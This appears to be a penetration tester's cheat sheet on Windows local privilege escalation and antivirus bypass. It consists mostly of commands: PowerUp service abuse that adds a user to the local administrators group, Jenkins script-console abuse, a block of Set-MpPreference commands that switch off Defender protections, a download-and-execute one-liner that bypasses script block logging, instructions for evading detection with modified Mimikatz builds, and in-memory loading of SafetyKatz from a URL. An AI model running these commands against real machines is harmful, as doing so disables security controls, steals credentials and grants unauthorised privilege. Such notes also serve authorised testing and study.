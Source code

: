 # Local Privilege Escalation / AV Bypass

## Ways for local privesc

* Missing patches
* Automated deployment (e.g. C:\Windows\panther\unattend.xml, C:\Windows\Panther, C:\Windows\Panther\UnattendGC, C:\Windows\System32\sysprep\Panther, s ) and AutoLogon passwords in clear text in Windowds Registry
* AlwaysInstallElevated (Any user can run MSI as SYSTEM)
* Misonfigured Services (e.g. Unquoted Service path, Permissions with Services/Directories
* DLL Hijacking                 &#x20;
* Tools: \
  PowerUp - . .\PowerUp.ps1 Invoke-AllCheck\
  BeRoot - .\beRoot.exe\
  Privesc - . .\PrivEsc.ps1 Invoke-PrivEsc\
  Seatbelt - .\seatbelt.exe all&#x20;

## Service Issues using PowerUp

**Do all checks**

```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

The Parameter "StartName" is the privilege e.g. LocalSystem\
The Parameter "CanRestart" is useful so we can restart it on our own and dont have to restart machine/wait until the service is restarted

**Get services with unquoted paths an a space in their name**

```powershell
GetServiceUnquoted -Verbose
Get-WmiObject -Class win32_service | select pathname
```

**Get services where the current user can write to its binary path or change arguments to the binary**

```powershell
Get-ModifiableServiceFile -Verbose 
=> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dom\username'
=> Add your domain user to local admin group!

```

**Get the services whose configuration current user can modify (e.g ACLs of the Service, maybe point service to different executable**

```powershell
Get-ModifiableService -Verbose 
```

## Abusing Enterprise Applications

* If Windows based, the often run as SYSTEM or Local Administrator
* Often overlooked by the Security team
* CI/CD Tools are interesting for abuse because they often need local high privilege - e.g Jenkins
* Jenkins
  * Anonymous read rights are/were default and you could see the build executor like Windows Server....
  * No Bruteforce Protection / No lockout / No PW policy for Jenkins local accounts (Check UserID)
  * When we have admin to Jenkins Server: http://url/script => Get you to the script console, Goovy scripts can be executed
    * That code will run on the build master (not the slaves)
    * ![](<.gitbook/assets/image (6).png>)
  * Try Username:Username, Usern:ReverseOfUsername etc.
  * Try to "Configure"a  Project and add build step "Execute Windows Batch Command and enter "powershell -c \<command>&#x20;
    * http://url/job/\[ProjectName]/configure => 200 Code if we have the permissions=> Check with Burp for all Projects
    * Check all Projects with all Users
    * Put your build step as the first one, so it wil get executed no matter the errors of other steps
    *   E.g

        <figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>



## **Bypass AV / Defender / Applocker / Enhanced Script Block Logging**

**AMSI Bypass**\
****amsi.fail

**Disable AV Protection/Monitoring**

{% code overflow="wrap" %}
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableArchiveScanning 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableBehaviorMonitoring 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableIntrusionPreventionSystem 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableIOAVProtection 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableRemovableDriveScanning 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableBlockAtFirstSeen 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableScanningNetworkFiles 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableScriptScanning 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableRealtimeMonitoring 1 -ErrorAction SilentlyContinue
```
{% endcode %}

Kill defender:\
[https://bidouillesecurity.com/disable-windows-defender-in-powershell/](https://bidouillesecurity.com/disable-windows-defender-in-powershell/)\
[https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1](https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1)

**Check Powershell Language Mode**

{% code overflow="wrap" %}
```powershell
$ExecutionContext.SessionState.LanguageMode
```
{% endcode %}

\
**AppLocker Policy**

{% code overflow="wrap" %}
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2\Script\....
```
{% endcode %}

**Bypasses Enhanced Script Block Logging**

```powershell
iex (iwr http://172.16.100.x/sbloggingbypass.txt -UseBasicParsing)

or paste the content of sbloggingbypass.txt

```

****

**Identify Code/Strings Defender may flag**\
https://github.com/matterpreter/DefenderCheck => C# without builds\
[https://gist.github.com/daddycocoaman/108d807e89a0f9731304bc848fa219f0](https://gist.github.com/daddycocoaman/108d807e89a0f9731304bc848fa219f0) => python [https://github.com/rasta-mouse/ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) => also c# without builds

DefenderCheck.exe path-to-sharpkatz.exe\
Visutal studio, CTRL + H, Replace all "Credentials" with "whatever", Scope as "Entire Solution", Replace All, Build and recheck

OutCompressedDll.ps1 for SafetyKatz\
[https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)\
Out-compressedDll mimikatz.exe > output.txt\
Copy $EncodedCompressedFile from output.txt and replace compressedMimikatzString in constants.cs of safetykatz\
Copy the byte size from the output file an replace it in program.cs on line 111 & 116\
Build and recheck

BetterSafetyKatz\
Use mimikatz\_trunk.zip and convert to base64\
Modify program.cs - add new variable with base64, comment the download code, convert base64 to bytes and pass it to zipStream

rubeus.exe - ConfuserEx [https://github.com/mkaring/ConfuserEx](https://github.com/mkaring/ConfuserEx)\


## Payload Delivery

NetLoader https://github.com/Flangvik/NetLoader - Used to load binary from filepath or URL an patch AMSI & ETW wihile executing

Loader.exe -path http://ip/safetykatz.exe

Assemblyload can be used to load NetLoader in-memory from a URL and then loads binary from filepath\
assemblyload.exe [https://github.com/KINGSABRI/AssemblyLoader](https://github.com/KINGSABRI/AssemblyLoader) ????\
assemblyload.exe http://ip/loader.exe -path http://ip/safetykatz.exe



## PrivEsc Scripts

{% embed url="https://github.com/enjoiz/Privesc" %}

. .\privesc.ps1\
Invoke-PrivEsc

{% embed url="https://github.com/AlessandroZ/BeRoot./beRoot.exe" %}

./beroot.exe

{% embed url="https://github.com/HarmJ0y/PowerUp" %}

```powershell
. ./powerup
Invoke-allchecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<username>'
```

{% embed url="https://github.com/S1ckB0y1337/WinPwn" %}
